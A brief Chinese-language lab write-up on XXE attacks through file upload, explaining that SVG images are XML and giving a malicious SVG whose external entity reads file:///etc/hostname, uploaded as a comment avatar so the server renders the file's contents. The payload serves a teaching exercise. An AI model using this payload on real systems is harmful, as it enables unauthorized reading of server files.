

通过文件上传进行XXE攻击

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML格式的示例是Office文档格式（例如DOCX）和图像格式（例如SVG）。

例如：

一个应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG之类的格式，使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，因此攻击者可以提交恶意的SVG图像，从而到达XXE漏洞的隐藏攻击面。


文章评论处可以上传图片，发现可以上传svg格式的图像

尝试进行xxe攻击

1.svg内容

```javascript
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg
```

上传文件，


在评论，头像处可以看到file:///etc/hostname内容




提交即可